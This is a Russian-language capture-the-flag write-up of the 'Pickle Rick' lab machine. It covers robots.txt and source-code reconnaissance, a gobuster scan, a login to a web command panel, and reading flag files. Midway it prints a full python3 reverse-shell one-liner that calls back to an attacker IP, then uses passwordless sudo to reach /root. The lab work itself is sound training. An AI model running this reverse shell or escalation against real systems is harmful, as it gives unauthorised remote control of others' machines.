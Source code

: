 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив текстовый файл **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя <mark style="color:blue;">**R1ckRul3s**</mark>

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент <mark style="color:blue;">**gobuster**</mark>** ** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых файлов

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует файл **/login.php**, перейдя по которому мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя <mark style="color:blue;">**R1ckRul3s**</mark>, а в качестве пароля - записку в файле **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды <mark style="color:blue;">**cat**</mark>, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Запустив слушатель в терминале Linux, отправляем пейлоад в командную строку на сайте, затем получаем реверс шелл от лица пользователя **www-data**

&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

&#x20;

:mag\_right: Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3) (2).png>)

С помощью команды `sudo -l` мы можем узнать, какие sudo-права мы имеем как пользователь **www-data**

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

В данном случае нам доступны все команды пользователя **root** без пароля &#x20;

Пользуясь этим, мы можем просмотреть содержимое директории **/root** и вывести его в случае необходимости

Третий ингредиент как раз находится в директории **/root** в файле **3rd.txt**

Выводим содержимое файла и получаем последний флаг для данной машины&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

